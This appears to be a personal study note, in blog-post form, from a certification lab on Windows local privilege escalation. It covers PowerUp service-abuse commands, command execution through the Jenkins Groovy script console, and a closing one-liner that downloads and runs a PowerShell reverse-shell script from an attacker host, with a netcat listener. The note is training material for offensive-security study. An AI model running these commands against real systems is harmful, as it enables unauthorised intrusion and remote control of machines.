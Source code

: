 ```yaml
---
title: "2 - Win Privesc"
classes: single
header:  
  teaser: /assets/images/posts/crtp/crtp-teaser3.jpg
  overlay_image: /assets/images/main/header21jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "Unquoted Paths and Modifiable Services"
description: "Unquoted Paths and Modifiable Services"
categories:
  - notes
  - crtp
tags:
  - begginer
  - AD
  - Windows 
toc: true
---
```


# Win Privesc - Local

> The material of CRTP about Local Privesc is not great

**There are various ways of locally escalating privileges on Windows box**:
```powershell
– Missing patches
– Automated deployment and AutoLogon passwords in clear text
– AlwaysInstallElevated (Any user can run MSI as SYSTEM)
– Misconfigured Services
– DLL Hijacking and more
– NTLM Relaying a.k.a. Won't Fix
```

**We can use below tools for complete coverage**:

[PowerSploit - Privesc Module](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

[Privesc on GitHub](https://github.com/enjoiz/Privesc)

[winPEAS in PEASS-ng](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)


## Services Issues using PowerUp

**Get services with unquoted paths and a space in their name**:
```powershell
Get-ServiceUnquoted -Verbose
```

**Get services where the current user can write to its binary path or change arguments to the binary**:
```powershell
Get-ModifiableServiceFile -Verbose
```

**Get the services whose configuration current user can modify**:
```powershell
Get-ModifiableService -Verbose
```

**Run all checks with automated tools** :
```powershell
# PowerUp:
Invoke-AllChecks

# Privesc:
Invoke-PrivEsc

# PEASS-ng:
winPEASx64.exe
```

## Feature Abuse
```
- If you have Admin access (default installation before 2.x), go to http://<jenkins_server>/script
- In the script console, Groovy scripts could be executed.
```

```powershell
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '
[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

If you don't have admin access but could add or edit build steps in the build configuration. Add a build step, add "Execute Windows Batch Command" and enter:
```powershell
powershell -c <command>
```

> Again, you could download and execute scripts, run encoded scripts and more.


**Learning Objective 5**:

- Exploit a service and elevate privileges to local administrator.
- Identify a machine in the domain where ur user has local administrative access.
- Using privileges of a user on Jenkins get admin privileges on another server.


**[easy to detect]**
```powershell
Invoke-ServiceAbuse -Name 'AbyssWebServer' -Username dcorp\studentx -Verbose
net localgroup Administrators
```

**[easy to detect - noise]**
```powershell
Find-PSRemotingLocalAdminAccess
```

```powershell
on Jenkins> powershell iex (iwr -UseBasicParsing http://172.16.100.1/Invoke-PowerShellTcp.ps1); power -Reverse -IPAddress 172.16.100.1 -Port 443
on Attacker> host the file in a webserver - example: HFS - HTTP File Server 
```

disable firewall or add exception
```powershell
on Attacker> netcat-win32-1.12.exe -lvp 443
```

